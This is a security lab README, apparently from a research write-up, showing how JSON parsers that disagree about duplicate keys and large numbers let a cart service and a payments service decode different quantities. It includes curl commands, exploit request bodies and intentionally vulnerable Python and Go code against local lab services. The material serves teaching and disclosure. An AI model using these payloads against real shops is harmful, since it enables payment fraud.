

# Lab 1: Free Purchases in an E-commerce Application
<p align="center">
  
</p>

###
This lab demonstrates a vulnerability pattern when two services use JSON parsers with [inconsistent duplicate key precedence](https://labs.bishopfox.com/tech-blog/an-exploration-of-json-interoperability-vulnerabilities#1-Inconsistent%20Duplicate%20Key%20Precedence). The Cart service will decode a positive quantity, while the Payment service will decode a negative quantity. In this example, this will lead to an attacker receiving items without paying for them.

There are two services:
* **Cart API (port 5000)**: Python, stdlib JSON
* **Payments API (port 5001)**: Go, buger/jsonparser library

### Architecture diagram


### Setup
Run docker-compose from the `lab1` directory:

```bash
docker-compose up -d
```

### Part 1: Inconsistent Duplicate Key Precedence

In this example, we're looking at a checkout and payment processing pipeline. We'll have a positive quantity used for fulfillment, and a negative quantity used for payment process. In the following request, we send a duplicate `qty` key to cause the Cart service (last key precedence) to incorrectly validate the JSON document before passing it to the Payments service (first key precedence).

Send a request to the Cart API.
```
curl localhost:5000/cart/checkout -H "Content-Type: application/json" -d @lab1_req.json
```

Request (`lab1_req.json`):
```
{
	"orderId": 10,
        "cart": [
        {
            "id": 0,
            "qty": 5
        },
        {
            "id": 1,
            "qty": -1,
            "qty": 1
        }
    ]
}
```

The Cart service enforces business logic through JSON Schema. However, JSON Schema libraries rely on parsed objects, so the duplicate key is not observed. The numeric range check (`0 <= x <= 10`) succeeds in the Cart service as the last duplicated `qty` key is preferred, which is a positive value.

Now, that the JSON body is validated, the original JSON string is forwarded to the Payments service:

```python
@app.route('/cart/checkout', methods=["POST"])
def checkout():
    # 1a: Parse JSON body using Python stdlib parser.
    data = request.get_json(force=True)

    # 1b: Validate constraints using jsonschema: id: 0 <= x <= 10 and qty: >= 1
    jsonschema.validate(instance=data, schema=schema)

    # 2: Process payments
    resp = requests.request(method="POST",
                            url="http://payments:8000/process",
                            data=request.get_data(),
                            )
```

However, the Payments API uses a JSON parser with first key precedence. Leading to a parsed negative value for `qty` reducing the total purchase price.

```golang
func processPayment(w http.ResponseWriter, r *http.Request) {
    var total int64
    total = 0
    data, _ := ioutil.ReadAll(r.Body)
    jsonparser.ArrayEach(
            data,
            func(value []byte, dataType jsonparser.ValueType, offset int, err error) {
                id, _ := jsonparser.GetInt(value, "id")
                qty, _ := jsonparser.GetInt(value, "qty")
                total = total + productDB[id]["price"].(int64) * qty;
            },
        "cart")

    io.WriteString(w, fmt.Sprintf("{\"total\": %d}", total))
}
```

The Cart API returns a receipt for the six items including the total payment charged by the Payments API. Note: the $700 total has been reduced to $300:

```
Receipt:
5x Product A @ $100/unit
1x Product B @ $200/unit

Total Charged: $300
```

### Part 2: Inconsistent Large Number Decode

In this example, we exploit differences in [large number decoding across JSON parsers](https://labs.bishopfox.com/tech-blog/an-exploration-of-json-interoperability-vulnerabilities#Example-Inconsistent%20Large%20Number%20Decode) to get items for free.

Here, the Cart service parser will faithfully decode the large number in the JSON document, but the JSON parser in the Payments API will decode the value as 0.

**Note:** This particular integer overflow is detected by `buger/jsonparser`. However, 0 is returned when there are errors, and the errors are unchecked. After a quick GitHub code search many users appear to ignore the error code, which contribute to outcomes seen here. However, even with error checking, in some libraries significant rounding can also occur to accommodate the underlying data types.

```
curl localhost:5000/cart/checkout -H "Content-Type: application/json" -d @lab1_alt_req.json
```

**Request (`lab1_alt_req.json`):**
```
POST /cart/checkout HTTP/1.1
...

{
	"orderId": 10,
    "cart": [
        {
            "id": 8,
            "qty": 999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
        }
    ]
}

```

**Response:**
```
Receipt:
999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999x $100 E-Gift Card @ $100/unit

Total Charged: $0
```

As shown above, the payments service did not charge the attacker for the E-Gift card credit.
